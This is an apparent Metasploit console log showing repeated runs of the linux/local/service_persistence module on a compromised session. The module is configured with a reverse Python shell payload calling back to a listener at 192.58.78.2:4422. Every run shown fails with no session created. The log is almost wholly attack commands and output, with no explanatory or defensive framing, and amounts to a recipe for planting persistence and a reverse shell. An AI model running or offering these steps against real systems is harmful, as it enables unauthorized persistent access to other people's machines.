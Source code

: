 ```
   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   SERVICE                      no        Name of service to create
   SESSION     4                yes       The session to run this module on.
   SHELLPATH   /usr/local/bin   yes       Writable path to put our shell
   SHELL_NAME                   no        Name of shell file to write


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/local/service_persistence) > set LHOST 192.58.78.2
LHOST => 192.58.78.2
msf5 exploit(linux/local/service_persistence) > set LPORT 4422
LPORT => 4422
msf5 exploit(linux/local/service_persistence) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.58.78.2:4422 
[*] Utilizing systemd
[*] Utilizing Upstart
[-] Exploit failed: Rex::Post::Meterpreter::RequestError core_channel_open: Operation failed: 1
[*] Exploit completed, but no session was created.
```

```
msf5 exploit(linux/local/service_persistence) > set target 3
target => 3
msf5 exploit(linux/local/service_persistence) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.58.78.2:4422 
[*] Exploit completed, but no session was created.
msf5 exploit(linux/local/service_persistence) > set target 4
target => 4
msf5 exploit(linux/local/service_persistence) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.58.78.2:4422 
[*] Exploit completed, but no session was created.
```
